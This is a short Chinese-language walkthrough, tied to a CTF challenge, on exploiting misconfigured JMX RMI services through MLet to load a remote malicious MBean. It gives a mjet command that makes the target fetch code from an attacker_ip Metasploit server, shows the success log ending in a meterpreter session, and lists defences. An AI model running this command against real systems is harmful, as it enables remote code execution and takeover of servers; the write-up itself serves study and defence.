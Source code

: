 # JMX RMI Exploit

原文地址： [Exploiting JMX RMI](http://www.accuvant.com/blog/exploiting-jmx-rmi)

### 利用方法


写这篇文章的起因是因为ALICTF决赛的其中一道题，是关于@cnbird2008出的一道linux渗透的题目，里面涉及了一台机器开启了1099端口。赛后很多同学说对这个利用方式感兴趣，所以整理出来，让小伙伴们以后方便查阅。

1099端口原本对应的服务为[Apache ActiveMQ](http://activemq.apache.org/jmx.html)对JMX的支持，但是由于配置不当，导致攻击者可以通过此端口利用javax.management.loading.MLet的getMBeansFromURL方法来加载一个远端恶意的MBean，即可以远程执行任意代码。当然，这个JMX的利用方法不仅仅在ActiveMQ上能够利用，在很多服务支持JMX的情况下其实也能够适用。

原文中详细的阐述了这个漏洞的原理分析和Exploit的编写，这里就不再赘述了。如何利用这个漏洞直接调用执行metasploit中的meterpreter payload呢，国外已经有人写了个JMX的利用工具叫mjet，在github上能够搜索到，[传送门](https://github.com/mogwaisec/mjet)。利用方法说的很详细，先是通过公网一台机器搭建好metasploit，启动一个java_mlet_server模块，能够让目标机器去加载恶意代码。然后使用mjet.jar这个工具来Exploit，具体的命令如下：

	java -jar mjet.jar -t target_ip -p 1099 -u http://attacker_ip:8080/mlet/
	
attacker_ip即自己公网装有metasploit的机器IP。执行后如果成功Exploit，会返回以下信息。

	---------------------------------------------------
	MJET - Mogwai Security JMX Exploitation Toolkit 0.1
	---------------------------------------------------
	
	[+] Connecting to JMX URL: service:jmx:rmi:///jndi/rmi://192.168.178.200:1616/jmxrmi ...
	[+] Connected: rmi://192.168.178.164  5
	[+] Trying to create MLet bean...
	[+] Loaded javax.management.loading.MLet
	[+] Loading malicious MBean from http://192.168.178.1:8080/mlet/
	[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
	[+] Loaded class: metasploit.Metasploit
	[+] Loaded MBean Server ID: ptIIirfM:name=BlPwaoHu,id=oWTqfkbE
	[+] Invoking: metasploit.Metasploit.run()
	[+] Done
	
中间执行的过程一目了然。然后在java_mlet_server端就反弹了一个meterpreter session在后端了。

### 防御方案
* 配置中启用SSL客户端证书身份认证。
* 启用密码方式的授权认证并使用SSL传输。
* 对JMX RMI的端口做iptables。

### 参考
* http://docs.oracle.com/javase/6/docs/technotes/guides/management/agent.html
* http://drops.wooyun.org/papers/178
